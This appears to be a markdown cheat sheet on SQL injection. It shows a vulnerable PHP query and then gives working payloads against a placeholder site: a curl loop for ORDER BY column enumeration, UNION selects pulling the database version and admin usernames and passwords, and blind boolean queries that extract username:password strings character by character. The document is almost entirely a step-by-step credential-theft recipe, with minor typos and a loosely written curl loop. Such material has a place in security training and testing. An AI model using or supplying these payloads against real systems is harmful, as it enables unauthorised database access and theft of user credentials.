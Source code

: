 # SQL Injection

## Basic Example
The following URL serves a page based on the ID number passed to it in the URL.

`https://website.com/pages?id=3`

For an SQL injection to work, this URL needs to be mishandled on the backend. Similar to this:

```
<?php
$id = $_GET['id'];
$query = "SELECT title, content FROM Pages WHERE id == $id;"
```

## Basic Test
The easiest way to test for an SQL injection vulnerability is to throw a `'` into the string. If the application is vulnerable you will see an error similar to:

```
You have an error in your SQL syntax; check the manual that corresponds t oyour MySQL server version for the right.."
```


## Enumerate the columns in the database
Once you determine an application is vulnerable, you can Use the `ORDER BY` statement to enumerate the columns in a table. 

```
x=1
limit=10
while [ $x -le $limit ]
do
    curl https://website.com/pages?id=3 order by $x/*
done
```

At a certain point you will see an error similar to: 

`(Unkown column '5' in 'order clause')` which will indicate that you have hit the maximum of 4 columns. 

## Test the UNION function
Make sure to test both methods of commenting if one does not work.

`https://website.com/pages?id=3 union all select 1,2,3,4/*`

`https://website.com/pages?id=3 union all select 1,2,3,4--`

## Get SQL Version Number
This will help us determine if we can exploit this version of SQL

`https://website.com/pages?id=3 union all select 1,2,@@version,4/*`


## Enumerate Tables & Columns (version < 5.0)
Pass column names into the query string to attempt to find usernames and passwords.

```
https://website.com/pages?id=3 union all select 1,2,username,4 from admin/*
https://website.com/pages?id=3 union all select 1,2,password,4 from admin/*
```

## Blind Testing
If the page does not throw an error our tests are considered successful.

`https://website.com/pages?id=3 and 1=1`

`https://website.com/pages?id=3 and 1=2`

### Get Version
Change the version number (5) as needed 

`https://website.com/pages?id=3 and substring(@@version,1,1)=5`

### Subselect Testing
If the page does not throw an error, the statement will work.

`https://website.com/pages?id=3 and (select 1)=1`

To access the user

`https://website.com/pages?id=3 and (select 1 from mysql.user limit 0,1)=1`


### Checking table names
`https://website.com/pages?id=3 and (select 1 from users limit 0,1)=1`


### Checking column names
`https://website.com/pages?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1`

### Exploiting the vulnerability
This query will retrieve a single string (username:password) from the database, take the first character and convert it to it's ascii code. You will want to increase the index of the character in order to enumerate the entire username and password.

`https://website.com/pages?id=3 and ascii(substring((select concat(username,0x3a,password) from users limit 0,1),1,1)) > 80`

`ascii()` - return the ascii character code

`substring(username:password, 1,1)` - return the first character in the user:pass string

`concat(username, 0x3a, password)` - concat username:password

`> 80` - Execute Select query if the ascii character code > 80









 
